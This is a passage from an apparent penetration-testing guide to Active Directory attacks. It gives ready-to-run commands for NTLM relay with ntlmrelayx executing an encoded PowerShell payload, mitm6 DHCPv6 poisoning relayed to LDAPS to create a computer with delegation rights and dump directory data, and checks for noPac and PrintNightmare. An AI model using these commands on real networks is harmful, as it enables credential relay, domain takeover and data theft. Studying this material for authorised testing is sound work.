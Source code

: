 ```
```
In the above commands, responder's configuration file is assumed to be located at /opt/tools/Responder/Responder.conf. This should be changed according to the pentester environment.

- Next, the relay tool should be up :
```
ntlmrelayx.py --no-http-server -smb2support -tf smb_targets.txt -c 'powershell -enc KABOAGU...'
```
`-c` option specify the command that may be run once the relay has been performed successfully 

- At this step, `responder` can be launched again to redirect queries to the relay server
```
sudo responder -I eth0
```
### IPv6 poisoining
Another useful way to poison the network is by giving answer to DHCPv6 requests and setting the attacker host as the default DNS server of the network. Windows by default prefers IPv6 over IPv4 so it is possible to capture and poison the response to DHCPv6 query to change the DNS server and redirect queries to the pentester machine with the tool `mitm6`. Below are the steps to be taken:
- Start `mitm6` to poison dhcpv6 and get dns request from the hosts
```
sudo mitm6 -i eth0 -d my.domain.com --debug
```
`my.domain.com` represents here the target domain name
- Answer to wpad queries and relay the http query to ldaps on the domain controller to add a computer with delegate access

```
ntlmrelayx.py -6 -wh wpadfakeserver.my.domain.com -t ldaps://DC.my.domain.com --add-computer relayedpccreate --delegate-access -l ~/loot
```
If this attack success, it will create a new computer with delegate access to the victim server, that means it will set the `msDS-AllowedToActOnBehalfOfOtherIdentity` of the victim server to the created one.

`DC.my.domain.com` represents here the Domain Controller and `~/loot` a directory where all the informations on the ldap will be automatically dumped.
### Common DC exploit

#### SamAccountName (nopac)
This combines CVE-2021-42287/CVE-2021-42278 and allows to impersonate DA from standard domain user
- Check the vulnerable state of a DC
```
crackmapexec smb DC -u pentestuser -k -M nopac
```
The scan and the exploitation can be automate via [noPac](https://github.com/cube0x0/noPac) tool
#### PrintNightmare
PrintNightmare is a vulnerability in the **Windows Print Spooler service** that allows remote attackers to execute code with SYSTEM-level privileges.

PrintSpooler service can be scan with: 
```
rpcdump.py @10.X.X.X | egrep 'MS-RPRN|MS-PAR'
```
PrintNightmare vulnerability can be scanned using github opensource.
